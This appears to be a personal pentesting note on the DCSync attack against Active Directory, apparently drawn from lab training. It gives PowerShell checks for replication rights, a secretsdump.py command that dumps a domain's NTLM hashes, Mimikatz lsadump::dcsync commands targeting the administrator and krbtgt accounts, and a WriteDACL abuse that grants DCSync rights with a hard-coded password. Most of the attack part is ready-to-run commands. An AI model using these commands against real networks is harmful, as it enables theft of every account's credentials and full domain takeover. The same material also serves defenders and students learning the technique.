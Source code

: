 ```yaml
---
description: Syncing into full domain compomise
---
```


# DCSync

{% embed url="https://www.youtube.com/watch?ab_channel=Netwrix&v=_m3u13Df7Fc" %}
Hard to prevent and detec.
{% endembed %}

### What is a DCSync attack

DCSync is a attack for stealing the Active Directory password database by using the Directory Replication Service Remote Protocol. This allows an attacker to mimic a Domain Controller to retrieve all the user NTLM password hashes.&#x20;

To perfrom this attack you need the rights:

* Replicating Directory Changes
* Replciating Directory Changes all

<figure><img src="../../.gitbook/assets/image (130).png" alt=""><figcaption><p>Its commond to find these right enabled.</p></figcaption></figure>

#### Use powershell to check for Replication rights

First retrieve the user's SID and then use Get-ObjectAcl to check or Replication rights

```powershell
Get-DomainUser -Identity mczen  |select samaccountname,objectsid,memberof,useraccountcontrol |fl
$sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
Get-ObjectAcl "DC=zencorp,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl

# Returns
AceQualifier          : AccessAllowed
ObjectDN              : DC=ZENCORP,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-498
ObjectAceType         : DS-Replication-Get-Changes

AceQualifier          : AccessAllowed
ObjectDN              : DC=ZENCORP,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-516
ObjectAceType         : DS-Replication-Get-Changes-All
```

### The DCSync attack

DCSync replication can be done by several tools. Runnings these tools and performing the DCSync attack will result in extracting NTLM hashes.&#x20;

#### Secretsdump

```bash
secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 
```

* `-just-dc-ntlm` for NTLM hashes only
* `just-dc` for NTLM, Kerberos and cleartext
* -j`ust-dc-user` username for specific user
* `history` for password history
* `-pwd-last-set` password last changes

#### Mimikatz

When using Mimikatz we have to target a user and must ben run by the user who has the DCSync privileges.&#x20;

```powershell
# Using mimikatz.ps1
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'

# Using mimikatz.exe
.\mimikatz.exe
mimikatz # privilege::debug
mimikatz # lsadump::dcsync /domain:ZENCORP.LOCAL /user:ZENCORP\administrator

# Or target the krbtgt
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

### <mark style="color:yellow;">WriteDACL</mark>

The WriteDACL privilege gives a user the ability to add ACLs to an object. This means that we can add a user to this group and give them DCSync privileges.&#x20;

* ACL: Acces Control Lists defines who has access to which asset or resource.
* ACE: Acces Control Entries stores ACL settings.
* Security principal: Entity to which ACE applies, like users, group or process.

Using powershell we can use these WriteDACL rights to add DCSync privileges to an aacount.

```powershell
# Create credential object
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)

# Add DCSynce privilgess
Add-DomainObjectAcl -Credential $Cred -TargetIdentity testlab.local -Rights DCSync
```

